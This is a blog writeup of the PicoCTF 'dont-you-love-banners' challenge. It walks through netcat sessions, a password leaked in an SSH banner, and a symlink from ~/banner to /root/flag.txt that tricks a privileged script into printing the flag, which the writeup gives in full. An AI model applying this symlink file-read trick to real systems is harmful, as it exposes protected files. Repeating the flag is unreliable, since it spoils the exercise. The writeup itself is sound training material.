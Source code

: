 +++
author = 'Alex Domnit'
title = 'dont-you-love-banners'
date = 2024-10-24T15:32:01+03:00
draft = false
description = "Writeup"
tags = [
    "CTF",
    "Completed",
]
categories = [
    "PicoCTF",
    "General skills",
]
toc = false
+++

### Level Description

Can you abuse the banner? The server has been leaking some crucial information on tethys.picoctf.net 55626. Use the leaked information to get to the server. To connect to the running application use nc tethys.picoctf.net 59416. From the above information abuse the machine and find the flag in the /root directory.

### Doc

[Symlinks.](https://www.freecodecamp.org/news/symlink-tutorial-in-linux-how-to-create-and-remove-a-symbolic-link/)

### Solution

Logging in on the nc connection provided hits you with a password request.

```
03:35:14 archie@Archie ~ → nc tethys.picoctf.net 52675
*************************************
**************WELCOME****************
*************************************

what is the password?
```

The next logical step is to investigate the netcat in the header in order to get the "leaked" information.

```
03:36:19 archie@Archie ~ → nc tethys.picoctf.net 65227
SSH-2.0-OpenSSH_7.6p1 My_Passw@rd_@1234
```

That gives you the password and next, you are prompted with some general questions that you can find the answers to on google : 

```
03:38:08 archie@Archie ~ → nc tethys.picoctf.net 52675
*************************************
**************WELCOME****************
*************************************

what is the password?
My_Passw@rd_@1234
What is the top cyber security conference in the world?
Defcon
the first hacker ever was known for phreaking(making free phone calls), who was it?
John Draper
player@challenge:~$
```

Now, you are in the machine. Let`s investigate the pwd.

```
player@challenge:~$ ls
ls
banner  text
player@challenge:~$ cat banner
cat banner
*************************************
**************WELCOME****************
*************************************
player@challenge:~$ cat text
cat text
keep digging
```

This didn`t help very much but navigationg to the root directory will.

```
player@challenge:/$ cd root
cd root
player@challenge:/root$ ls
ls
flag.txt  script.py
player@challenge:/root$ cat flag.txt
cat flag.txt
```

**script.py :**

```
import os
import pty

incorrect_ans_reply = "Lol, good try, try again and good luck\n"

if __name__ == "__main__":
    try:
      with open("/home/player/banner", "r") as f:
        print(f.read())
    except:
      print("*********************************************")
      print("***************DEFAULT BANNER****************")
      print("*Please supply banner in /home/player/banner*")
      print("*********************************************")

try:
    request = input("what is the password? \n").upper()
    while request:
        if request == 'MY_PASSW@RD_@1234':
            text = input("What is the top cyber security conference in the world?\n").upper()
            if text == 'DEFCON' or text == 'DEF CON':
                output = input(
                    "the first hacker ever was known for phreaking(making free phone calls), who was it?\n").upper()
                if output == 'JOHN DRAPER' or output == 'JOHN THOMAS DRAPER' or output == 'JOHN' or output== 'DRAPER':
                    scmd = 'su - player'
                    pty.spawn(scmd.split(' '))

                else:
                    print(incorrect_ans_reply)
            else:
                print(incorrect_ans_reply)
        else:
            print(incorrect_ans_reply)
            break

except:
    KeyboardInterrupt
```

The interesting part of all of this is the fact that the script reads the banner file in your home directory using elevated priviledges. This basically boils down to the fact that if you could somehow change the file from banner to flag.txt you could in theory get the password for the next level. Here is where symlinks come in handy. They are basically the same thing as a shortcut on windows. The taught process is that we remove the file, create a link to the file that we actually want to read then run the script.

```
player@challenge:~$ rm banner
rm banner
player@challenge:~$ ls
ls
text
player@challenge:~$ ln -s /root/flag.txt banner
ln -s /root/flag.txt banner
player@challenge:~$ ls
ls
banner  text
```

Now, when you log into the same instance once again, the script will execute and hopefully spit out the password.

**Next login :**

```
03:49:07 archie@Archie ~ → nc tethys.picoctf.net 52675
picoCTF{b4nn3r_gr4bb1n9_su((3sfu11y_f7608541}
```
